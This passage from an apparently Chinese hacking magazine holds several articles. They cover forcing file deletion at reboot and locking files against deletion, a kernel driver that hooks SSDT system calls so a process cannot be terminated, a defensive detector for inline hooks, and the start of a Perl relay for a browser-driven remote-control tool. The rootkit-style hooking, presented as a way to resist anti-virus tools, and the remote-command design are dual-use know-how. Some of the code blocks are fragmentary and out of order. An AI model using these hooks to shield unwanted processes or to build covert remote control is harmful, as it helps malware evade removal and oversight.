> 注册表编辑时注意保持格式。但 Windows Vista/Server 2008 操作系统中 MoveFileEx 函数执行重启替换时并不是放在注册表中，而是在 %Windir%\WinSxS 文件夹中有两个名为 pending.xml 和 cleanup.xml 的文件负责管理。

#### Ring3 下保护文件防止删除

这里我们介绍一种简单的实现方法。现在的 HIPS 软件越来越多，为了防止不必要的麻烦，这里不使用 Ring3 API Hook 以及 Ring3 中通过调用 Native API Inline Hook，毕竟效果和工作量没有很好的竞争力（底层还有 Ring0 Native API，构造 IRP 发送或 FSD 更底层的文件系统强制删除），所以这里我们在 Ring3 中使用的是 CreateFile 的共享只读模式来处理实现，比较经济高效，最后注意不要关闭文件句柄 hFile。

2）重新启动时删除文件代码

```cpp
UpdateData(TRUE);
// 获取 IDC_EDIT m_strPath 变量值
if(m_strPath.Compare("") == 0)
{
    SetDlgItemText(IDC_TIP, "请输入需要删除的文件名称");
    return;
}
// 如果 MoveFileEx 返回结果不为 0，则表示删除成功
if(MoveFileEx(m_strPath, NULL, MOVEFILE_DELAY_UNTIL_REBOOT) > 0)
{
    SetDlgItemText(IDC_TIP, m_strPath + "文件下次启动时被删除");
    m_strPath = "";
    // 清空 IDC_EDIT m_strPath 变量的路径信息
}
UpdateData(FALSE);
```

```cpp
UpdateData(TRUE);
if(m_strPath.Compare("") == 0)
{
    SetDlgItemText(IDC_TIP, "请输入需要保护的文件名称");
    return;
}
HANDLE hFile = CreateFile(m_strPath, GENERIC_READ,
    // 共享只读打开文件，起到保护文件的办法
    FILE_SHARE_READ, NULL, OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL, NULL);
if(hFile == INVALID_HANDLE_VALUE)
    SetDlgItemText(IDC_TIP, "需要保护的文件打开错误，确认文件存在");
else
    SetDlgItemText(IDC_TIP, "文件已经防止删除");
```

将以上代码编译为程序 Ring3File，然后把 Windows 自带的记事本程序 notepad.exe 复制到 D 盘，双击 D 盘上的 notepad.exe 执行后不要关闭，在资源管理器中执行普通的删除操作，会提示“无法删除 notepad：访问被拒绝”。这时执行我们的 Ring3File 演示程序，输入完整路径“d:\notepad.exe”，如图1所示，单击“立即删除”按钮后，回到资源管理器，发现 D 盘上正在运行的 notepad.exe 文件被我们强行删除了。

> MoveFileEx 函数的原理：在 Windows 2000/XP/Server 2003 中，MoveFileEx 会在注册表 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager 键下面创建一个名为 PendingFileRenameOperations 的多字符串键值，它的类型为 REG_MULTI_SZ。

图1

“保护文件防止删除”按钮后，该文件通过常规的方式是无法被删除的，包括上面提到的“立即删除”功能，除非我们的 Ring3File 程序退出而释放了打开句柄。但通过上文的“重启删除”功能会在系统下次启动时，由 Windows 进程 csrss 将其删除，所以重启删除文件是比较厉害的。

写本文时，我使用 WinHex 把系统的大部分文件破坏了，导致 IFS DDK 丢失，WinHex 强制删除文件也是不错的方法，有兴趣的读者可以深入挖掘一下。下次我将和大家就如何在 Ring0 下实现保护文件和强行删除进行讨论。文件系统相关的攻防又是一片天地，和 NDIS 网络驱动一样，不是一般的系统内核驱动可以比拟的，本文希望能帮助大家在 Ring3 下处理一些棘手的问题，起到抛砖引玉的作用。

前置知识：VC  
关键词：编程、SSDT、进程保护

### 内核的伪装及进程保护

文／夜枫

在 2008 年第 1 期杂志的文章中，我提到过利用 Hook 内核函数 NtOpenProcess 来实现进程保护的方法。文章发表后，有位读者在黑防论坛提出了我修改 SSDT 的方法没有置 CR0 寄存器为 0 就直接修改了，这样会使系统 BSOD。我当时对其提出的问题进行了回复，这里也顺便解释一下，其实不修改而直接改也是可以的，我用 Windows XP SP2 测试时是可行的，但 Windows 2000 和 2003 不太清楚，这里也感谢这位读者对黑防的支持，以及对我文章的支持。

本文我们再来谈谈内核级的进程保护。上次我们挂钩 OpenProcess，因为如果 A 进程要结束 B 进程，那么第一步需要获得 B 进程的访问权限，所以调用 OpenProcess 来打开进程，而 B 进程自己结束自己时是不需要这个权限的，因为 B 进程本身就对自身具有完全访问权限。而我们上次的方法就是 Hook 内核函数 NtOpenProcess，当有进程试图打开所保护的进程时予以拒绝。这个方法是一个比较冷门的方法，对有些反病毒工具是无效的。

下面我再给大家介绍一个比较通用的方法，Hook 函数 NtTerminateProcess。我们知道，Win32 中结束一个进程（包括结束自身进程）调用的是 API 函数 TerminateProcess，这个函数在 MSDN 中的声明如下：

```c
BOOL TerminateProcess(
    HANDLE hProcess,
    DWORD  uExitCode
);
```

其中第一个参数表示要结束的进程句柄，第二个是退出码。从名字我们也可以看出，对应的 Native API 是 NtTerminateProcess。在《The Undocumented Functions Microsoft Windows NT/2000》里可以查到这个函数的原型，代码如下：

```c
NTSYSAPI
NTSTATUS
```

```c
NTAPI
NtTerminateProcess(
    IN HANDLE ProcessHandle OPTIONAL,
    IN NTSTATUS ExitStatus
);
```

我们通过对比可以看到，函数参数都是一样的。

通过刚才的程序结束过程，不难想出，如果我们挂钩这个函数，当要结束的进程是所保护的进程时，我们不让它结束，这样就可以实现进程保护了。而这也是本文的思想。

#### 分析

因为论坛上读者提出了我2008年第1期文章中介绍的方法存在的问题，这次采用MDL来锁定并修改SSDT，这应该是任何系统都通用的。

```c
PMDL m_MDL;
PVOID *m_Mapped;
```

我们先声明两个全局变量，一个是内存描述符（MDL），一个是映射后的内存映射。

```c
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function+1)]
#define SYSCALL_INDEX(_Function) *(PULONG)((PUCHAR)_Function+1)
#define HOOK_SYSCALL(_Function,_Hook,_Orig) \
    _Orig = (PVOID)InterlockedExchange((PLONG)&m_Mapped[SYSCALL_INDEX(_Function)], (LONG)_Hook)
```

这段代码定义了3个宏，第一个是获得函数在SSDT表中的位置，第二个是获得函数的索引，第3个是修改函数地址。网上的很多Rootkit程序都要用到这几个宏，其中一般还会有个UNHOOK_SYSCALL，它和HOOK_SYSCALL是一样的，只不过一个有返回值，一个没有返回值。这里我只用了一个，恢复时随便找个变量接收地址就可以了（当然，另外声明一些比较好，可以节约内存）。

既然说到了内存，下面我再介绍一个宏。

```c
#pragma alloc_text(INIT, DriverEntry)
#pragma alloc_text(PAGE, OnUnload)
#pragma alloc_text(PAGE, DispatchDeviceControl)
#pragma alloc_text(PAGE, NewZwOpenProcess)
#pragma alloc_text(PAGE, NewZwTerminateProcess)
```

这个宏利用alloc_text声明到PAGE段，当驱动加载后，PAGE段的函数全部放在非分页内存中，而声明为INIT段的函数则在驱动加载后会被释放掉内存。驱动因为是在非分页内存中而得以长期驻留，所以一切要以节约内存为主。

接下来我们看一下整体的函数声明部分。

```c
PMDL m_MDL;
PVOID *m_Mapped;
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
// 变量名是不能变的，因为是从外部导入的
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function+1)]
#define SYSCALL_INDEX(_Function) *(PULONG)((PUCHAR)_Function+1)
#define HOOK_SYSCALL(_Function,_Hook,_Orig) \
    _Orig = (PVOID)InterlockedExchange((PLONG)&m_Mapped[SYSCALL_INDEX(_Function)], (LONG)_Hook);

NTSYSAPI NTSTATUS NTAPI ZwOpenProcess(OUT PHANDLE ProcessHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN PCLIENT_ID ClientId OPTIONAL);
NTSYSAPI NTSTATUS NTAPI ZwTerminateProcess(IN HANDLE ProcessHandle OPTIONAL, IN NTSTATUS ExitStatus);

typedef NTSTATUS (*ZWOPENPROCESS)(OUT PHANDLE ProcessHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN PCLIENT_ID ClientId OPTIONAL);
typedef NTSTATUS (*ZWTERMINATEPROCESS)(IN HANDLE ProcessHandle OPTIONAL, IN NTSTATUS ExitStatus);

NTSTATUS NewZwOpenProcess(OUT PHANDLE ProcessHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN PCLIENT_ID ClientId OPTIONAL);
NTSTATUS NewZwTerminateProcess(IN HANDLE ProcessHandle OPTIONAL, IN NTSTATUS ExitStatus);
NTSTATUS PsLookupProcessByProcessId(IN ULONG ulProcId, OUT PEPROCESS *pEProcess);

ZWOPENPROCESS OldZwOpenProcess = NULL;
ZWTERMINATEPROCESS OldZwTerminateProcess = NULL;

// 这里为了快点，我直接写PID了
long pid = 3256;
```

这里要注意一个问题，其中我还声明了一个PsLookupProcessByProcessId函数，这个函数一会我们有大用处。下面我们跟随驱动加载的步骤，一步一步来看看驱动到底是如何工作的。

```c
m_MDL = MmCreateMdl(NULL, KeServiceDescriptorTable.ServiceTableBase, KeServiceDescriptorTable.NumberOfServices * 4);
if (!m_MDL)
    return STATUS_UNSUCCESSFUL;
// 非分页内存
MmBuildMdlForNonPagedPool(m_MDL);
m_MDL->MdlFlags = m_MDL->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;
// 锁定
m_Mapped = MmMapLockedPages(m_MDL, KernelMode);
HOOK_SYSCALL(ZwOpenProcess, NewZwOpenProcess, OldZwOpenProcess);
HOOK_SYSCALL(ZwTerminateProcess, NewZwTerminateProcess, OldZwTerminateProcess);
```

```c
KdPrint(("[-]进程保护，外部程序试图关闭保护进程\n"));
nStatus = STATUS_ACCESS_DENIED;
}
else
{
    // 我们程序点击关闭也是使用的TerminateProcess，
    // 所以这种情况下当前进程是我们所保护的进程，则正常退出
    KdPrint(("[-]进程保护，程序自身退出请求\n"));
}

// 剩下的交给我们的原函数
if (nStatus != STATUS_SUCCESS)
    return nStatus;
else
    return OldZwTerminateProcess(ProcessHandle, ExitStatus);
}
```

首先是用MmCreateMdl创建内存描述符，然后用MmBuildMdlForNonPagedPool创建非分页内存。之后我们修改属性让内存可写，利用函数MmMapLockedPages锁定，最后使用HOOK_SYSCALL修改SSDT。

我们再看一下ZwTerminateProcess这个函数的新地址是如何工作的。

```c
NTSTATUS NewZwTerminateProcess(IN HANDLE ProcessHandle OPTIONAL, IN NTSTATUS ExitStatus)
{
    NTSTATUS nStatus = STATUS_SUCCESS;
    PEPROCESS EPROCESSPROTECT = NULL;
    PEPROCESS EPROCESSKILL = NULL;
    // 我们要保护的进程的PID存储变量pid里，使用PsLookupProcessByProcessId可以通过PID获得EPROCESS
    PsLookupProcessByProcessId((ULONG)pid, &EPROCESSPROTECT);
    // 通过ProcessHandle获得当前要结束的进程的EPROCESS
    if (ObReferenceObjectByHandle(ProcessHandle, GENERIC_READ, NULL, KernelMode, &EPROCESSKILL, 0) == STATUS_SUCCESS)
    {
        // 如果要结束的是我们需要保护的进程，这里分两种情况
        if (EPROCESSPROTECT == EPROCESSKILL)
        {
            if (EPROCESSPROTECT != PsGetCurrentProcess())
            {
                // 情况一：当前进程不是我们所保护的进程，换句话说就是其他进程试图结束我们所保护的进程，当然不能让它结束
            }
        }
    }
}
```

因为2008年第1期文章的程序是基于PID来保护进程的，所以这里我也采用PID来保护。代码我做了详细注释，这里只简单介绍一下。首先我们用到了函数PsLookupProcessByProcessId，它可以通过PID来获得一个EPROCESS对象，而EPROCESS在不同的系统中定义是不一样的，所以没有固定定义，不过这里面是有文件名的，我们可以在DriverEntry的时候通过PsGetCurrentProcess来获得一个EPROCESS，然后查找到文件名偏移，这也是通用的方法。因为DriverEntry时获得的EPROCESS进程名是system，所以我们可以获得到文件名偏移量，这里我用的方法是直接对比内存地址。ObReferenceObjectByHandle函数可以通过句柄来获得对象，我这里用这个函数通过ProcessHandle句柄来获得EPROCESS对象，这个EPROCESS和开始那个可不一样，这个是我们要结束的EPROCESS，而开始那个是我们所保护的EPROCESS。

调用TerminateProcess有两种情况，第一种情况是其他进程试图结束我们的进程，另一种情况是自身进程退出，所以我们只能阻止第一种情况，而不能阻止第二种情况，否则正常的程序就不能退出了。这里我采用的方法是使用PsGetCurrentProcess来获得当前进程和我们所保护的进程相对比，如果是一样的，则表示是程序自身退出，不作任何处理；而如果不一样，则表示是其他程序试图结束我们的进程。

前置知识：VC  
关键词：编程、hook检测、SSDT

## 用并行反汇编引擎检测inline hook



文/Lemnis

最近两天在研究FUTO Rootkit的源代码，发现其自身带了一个反汇编引擎，通过该引擎可以反汇编32位或者16位的代码，于是就想到用反汇编引擎来检测inline hook，于是尝试写了本文要说明的程序。

在开始之前，我们先对常用的inline hook方法来做个总结，常用的inline hook手段有如下3种。

- 1. 在要inline hook的函数中用`JMP XXXXXXXX`覆盖原函数的指令，后面的`XXXXXXXX`是相对跳转指令的偏移量，该指令的机器码是`E9XXXXXXXX`，占用5个字节的地址空间。
- 2. 在要inline hook的函数中用`JMP FAR XXXXXXXXXX`覆盖原函数的指令，后面的`XXXXXXXX`是跳转的绝对地址，该指令的机器码是`EA XXXX 0800`，而`0800`是段选择，该指令占用7个字节的地址空间。
- 3. 在要inline hook的函数中先`PUSH XXXXXXXX`，之后直接用`RETN`返回，这样就间接实现了跳转，其中`XXXXXXXX`是要跳转到的绝对地址。这两条指令的机器码是`68XXXXXXXX`和`C3`，共占用6个字节的地址空间。

平常的inline hook，多是对函数头部分进行，当然，如果是对函数理解较深的话，也有对函数的深层次进行inline hook的，这样检测起来会比较困难。

在此，我们通过对传入的函数头地址的前25个字节进行反汇编，之后判断是否有上面提到的几个指令来判断函数是否被inline hook，而本文则是编写一个检测SSDT表中的服务函数是否被inline hook的程序，其中判断inline hook的函数代码如下。

```c
// StartAddress是要检测的函数头地址，pOpCode是要返回的检测信息，其结构如下
// typedef struct OpCode
// {
//     enum InstructType Type; // 跳转类型
//     DWORD JmpAddress;       // 跳转到的地址
//     DWORD HookedAddress;    // 被inline hook的地址
// } OPCODE, *POPCODE;

BOOLEAN FindInlineHook(IN ULONG StartAddress, OUT POPCODE pOpCode)
{
    int len = 0;
    INSTRUCTION inst;
    INSTRUCTION instb;
    if (pOpCode == NULL)
    {
        // KdPrint(("[FindInlineHook] pOpCode Point Invalid\n"));
        return FALSE;
    }
    for (len = 0; len < 25;)
    {
        if (!MmIsAddressValid((PVOID)(StartAddress + len)))
        {
            break;
        }
        len += get_instruction(&inst, (BYTE *)(StartAddress + len), MODE_32);
        // 判断是否是跳转指令
        if (inst.type == INSTRUCTION_TYPE_JMP)
        {
            pOpCode->HookedAddress = StartAddress + len - inst.length;
            if (inst.length == 7)
            {
                pOpCode->Type = DIRECT_JMP;
                pOpCode->JmpAddress = inst.op1.displacement;
            }
            else if (inst.length == 5)
            {
                pOpCode->Type = RELATIVE_JMP;
                pOpCode->JmpAddress = StartAddress + len + inst.op1.immediate;
            }
            // KdPrint(("DIRECT_JMP %0X -> %0X\n", pOpCode->HookedAddress, pOpCode->JmpAddress));
            return TRUE;
        }
        if (!MmIsAddressValid((PVOID)(StartAddress + len)))
        {
            break;
        }
        len += get_instruction(&instb, (BYTE *)(StartAddress + len), MODE_32);
        // 判断是否是跳转指令
        if (instb.type == INSTRUCTION_TYPE_JMP)
        {
            pOpCode->HookedAddress = StartAddress + len - instb.length;
            if (instb.length == 7)
            {
                pOpCode->Type = DIRECT_JMP;
                pOpCode->JmpAddress = instb.op1.displacement;
            }
            else if (instb.length == 5)
            {
                pOpCode->Type = RELATIVE_JMP;
                pOpCode->JmpAddress = StartAddress + len + instb.op1.immediate;
            }
            // KdPrint(("DIRECT_JMP %0X -> %0X\n", pOpCode->HookedAddress, pOpCode->JmpAddress));
            return TRUE;
        }
        // 判断是否是PUSH/RETN类型的跳转
        if (inst.type == INSTRUCTION_TYPE_PUSH && instb.type == INSTRUCTION_TYPE_RET)
        {
            pOpCode->Type = PUSH_RETN;
            pOpCode->HookedAddress = StartAddress + len - inst.length - instb.length;
            pOpCode->JmpAddress = inst.op1.displacement;
            // KdPrint(("DIRECT_JMP %0X -> %0X\n", pOpCode->HookedAddress, pOpCode->JmpAddress));
            return TRUE;
        }

        if (instb.type == INSTRUCTION_TYPE_PUSH)
        {
            if (!MmIsAddressValid((PVOID)(StartAddress + len)))
            {
                break;
            }
            len += get_instruction(&inst, (BYTE *)(StartAddress + len), MODE_32);
            if (inst.type == INSTRUCTION_TYPE_RET)
            {
                pOpCode->Type = PUSH_RETN;
                pOpCode->HookedAddress = StartAddress + len - inst.length - instb.length;
                pOpCode->JmpAddress = instb.op1.displacement;
                // KdPrint(("DIRECT_JMP %0X -> %0X\n", pOpCode->HookedAddress, pOpCode->JmpAddress));
                return TRUE;
            }
        }
    }
    return FALSE;
}
```

在上面的代码中，我们通过对函数头的前25个字节用反汇编引擎库提供的函数`get_instruction`获取反汇编后的汇编码信息，依次判断是否是我们前面提到的几种指令，之后从汇编码信息中获取跳转到的地址。

由于SSDT的表头指针内核导出了，我们可以通过下面的代码获取。

```c
// 获取SSDT表中的信息需要使用的数据结构
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    // Used only in checked build
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
```

在SSDT表中，每个服务函数的地址都是用4个字节的地址空间存放的，结构中的`ServiceTableBase`是表头指针，`NumberOfServices`是SSDT表中的服务个数。

用于检测SSDT表服务函数是否inline hook的整个函数代码如下。

```c
VOID ScanSSDT(VOID)
{
    ULONG NumOfService = 0x00000000;
    PULONG AddServiceStart = 0x00000000;
}
```

就返回`STATUS_ACCESS_DENIED`访问失败。

到此，我们的新方法就介绍完了。结合2008年第1期文章介绍的方法，可以阻挡绝大部分的进程结束，当然有些也阻挡不了，比如IceSword。

最后，我再介绍一下应用前景。《黑客防线》曾经发表过一篇文章（浅析Ring3下对抗2008瑞星主动防御），其中介绍了一个用作业对象来结束瑞星的方法，这种结束方法就不会调用NtTerminateProcess，而瑞星就是HOOK这个函数，所以可以成功地把瑞星结束掉。但如果你看过这篇文章提供的代码就会发现，它还需要得到进程的访问权限才可以，也就是说，还需要调用NtOpenProcess来打开进程，所以我们的驱动还是可以成功阻止的。另外，如果大家对我文章有什么疑问或建议，欢迎到黑防论坛上发帖，我会第一时间解答大家的疑问。

```c
ULONG iCount = 0x00000000;
OPCODE OpCode;
NumOfService = KeServiceDescriptorTable.NumberOfServices;
AddServiceStart = KeServiceDescriptorTable.ServiceTableBase;

KdPrint(("[SSDT HOOK INFORMATION]\n"));
for(iCount = 0; iCount < NumOfService; iCount++)
{
    if(FindInlineHook(AddServiceStart[iCount], &OpCode))
    {
        switch(OpCode.Type)
        {
        case DIRECT_JMP:
            KdPrint(("[HOOK INFO] DIRECT_JMP 0x%0X -> 0x%0X\n", OpCode.HookedAddress, OpCode.JmpAddress));
            break;
        case RELATIVE_JMP:
            KdPrint(("[HOOK INFO] RELATIVE_JMP 0x%0X -> 0x%0X\n", OpCode.HookedAddress, OpCode.JmpAddress));
            break;
        case PUSH_RETN:
            KdPrint(("[HOOK INFO] PUSH_RETN 0x%0X -> 0x%0X\n", OpCode.HookedAddress, OpCode.JmpAddress));
            break;
        }
    }
}
```

进行了 inline hook，下面用我们的程序来检测一下。首先运行冰刃，再用 KmdManager 把驱动加载进去，在 DbgView 中看到的调试信息如图1所示。之后我们用 Rootkit Unhooker 检测到的 HOOK 信息如图2所示。我们的程序检测的结果和 Rootkit Unhooker 检测的结果一样。





以上程序用 VC++6.0 编译，在 Windows XP SP2 上运行成功。本文程序所使用的反汇编引擎的3个文件 libdasm.c、libdasm.h 和 tables.h 在 FUTO Rootkit 的源代码中有提供，FUTO Rootkit 的源代码可在 www.rootkit.com 下载。

冰刃在运行的时候，对 SSDT 表中的6个函数

前置知识：Perl  
关键词：编程，B/dS，远程控制

## B/dS结构远程控制的构想与实现

文／图 wolfSea、黄钰璇

在谈论 B/dS 结构之前，我们有必要先谈一下 C/S 结构和 B/S 结构。

C/S(Client/Server)结构是现时大多数软件系统所采用的通讯结构。C/S 应用系统基本运行关系体现为“请求/响应”的应答模式。每当用户需要访问服务器时，就由客户机发出“请求”，服务器接受“请求”并“响应”，然后执行相应的服务，把执行结果返回给客户机，由它进一步处理后再提交给用户。这种结构下程序可以充分利用两端硬件环境优势，合理分配两端任务，降低系统通信开销。

B/S(Browser/Server)结构是随着 Internet 技术的兴起，对 C/S 结构的一种变化或者改进的结构。在这种结构下，用户工作界面是通过 WWW 浏览器来实现的；极少部分事务逻辑在前端(Browser)实现，主要事务逻辑在服务器端(Server)实现，形成所谓三层 3-tier 结构。这样就大大简化了客户端电脑载荷，减轻了系统维护与升级的成本和工作量，降低了用户的总体成本(TCO)。

C/S 结构下的远程控制，有冰河、灰鸽子等等，而 B/S 结构的，像 VNC 可以支持浏览器控制，还有国内的 rmtSvc。

而我们今天要讲是另一种有别于上述两种结构的远程控制程序的设想和开发。这种新的模式在某种程度上类似于 B/S(Browser/Server)结构，在客户端方面我们仍将使用浏览器(Browser)来实现前端操作，但有别于 B/S(Browser/Server)结构直接与服务器进行通信，我们这里将引入另一个服务器来实现信息的储存和中转。这个结构中将有一个前端浏览器(Browser)，一个信息中转服务器(Server)和另一个执行服务器(Server)。对于这种通信模式，我暂且称之为 B/dS(Browser/double Server)结构，即浏览器和双服务器结构。

## B/dS结构的工作模式

B/dS 结构的工作模式大致如图1所示（为了区别两台服务器，并且信息中转服务器实现在本例中将以 CGI 编程实现，我在图中将信息中转服务器命名为 cgi Server）。

在这一过程中，前端浏览器(Browser)将操作指令发布到信息中转服务器(cgi Server)，操作指令将暂时储存在信息中转服务器(cgi Server)上；信息中转服务器(cgi Server)向前端浏览器(Browser)发送包含执行服务器(Server)目前状态的回馈信息；执行服务器(Server)接受信息中转服务器(cgi Server)转发的指令并执行，执行结果反馈到信息中转服务器(cgi Server)上，暂时储存；执行结果由信息中转服务器(cgi Server)发送到前端浏览器(Browser)。

除此之外，该结构还将支持手机浏览器通过移动网络访问信息中转服务器(cgi Server)实现相同操作。



## B/dS结构的优势

在上述过程，我们可以看到，前端浏览器(Browser)并不与服务器(Server)直接连接，而是将操作指令发布到信息中转服务器(cgi Server)上暂时储存，再转交到执行服务器(Server)。这样的结构打破了传统 C/S 和 B/S 结构指令发布与执行的同时性，这种非同时性也就是其优势所在。发布与执行的非同时性，允许我们在执行服务器(Server)不在线的状态下发布指令，随后等到执行服务器(Server)在线时再读取执行并反馈，同样的反馈信息也将暂时储存在信息中转服务器(cgi Server)，等待前端浏览器(Browser)上线访问，从而实现一种脱机操作。这种模式，在信息中转服务器(cgi Server)长时在线条件下，仅需前端或服务端任一方在线即能完成通讯，完全超越了时间的限制。

另一方面，在本例中，信息中转服务器(cgi Server)还同时支持手机浏览器通过移动网络访问并执行相关操作。据中国互联网信息中心最新发布的《第21次中国互联网发展状况统计报告》显示，中国手机网民已达 5040 万人，可以看到中国手机互联网不断发展并已初步成型。我们可以方便地通过手机等手持装置连接到移动网络。支持 WAP 浏览器的访问和操作，为该远程控制模型提供了地点条件的随意性。在超越时间限制的同时，也超越了空间的限制。

## 一组简单的B/dS结构远程控制模型

在这里我只简单地提供了一组 B/dS 结构远程控制的模型，中转服务器(cgi Server)部分使用 APMServ5.2.0 搭建了一个 CGI 服务器，并使用 Perl 编写了中转的 CGI 程序，执行服务器(Server)同样使用 Perl 编写，具体的实现代码如下。

- 1）中转服务器(cgi Server) B-dS.pl

```perl
#!"/perl/bin/perl"
#use strict;

my %FORM;
my $time = localtime;
my $second = time;

my @pairs = split(/&/, cgi_read());
foreach my $pair (@pairs) {
  my ($name, $value) = split(/=/, $pair);
  $value =~ tr/+/ /;
  $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
  $value =~ s/<!--(\n)*-->//g;
  $value =~ s/\t/ /g;
  $FORM{$name} = $value;
}

my $command = $FORM{'command'};
my $return = $FORM{'return'};
my $sign = $FORM{'sign'};

##### 以上部分处理递交到 CGI 的参数
if ($sign==1){
  set_time();
  send_command();
  exit 0;
}

##### 判断信号变量，1 为执行服务器，否则返回指令
if($command eq ''){
  show();
} elsif($return eq ''){
  add_command($command);
  show();
} else {
  add_data($command,$return);
}

# 简单逻辑判断，指令为空时返回操作页面，指令不为空且指令无执行反馈时储存指令，否则添加执行日志
##### 以下为子函数部分
```

```perl
sub cgi_read {
  return unless defined($ENV{REQUEST_METHOD});
  if($ENV{REQUEST_METHOD} eq 'GET' && $ENV{QUERY_STRING}) {
    return $ENV{QUERY_STRING};
  } elsif($ENV{REQUEST_METHOD} eq 'POST' && $ENV{CONTENT_LENGTH}) {
    my $tmp;
    read(STDIN, $tmp, $ENV{CONTENT_LENGTH});
    return $tmp;
  }
}

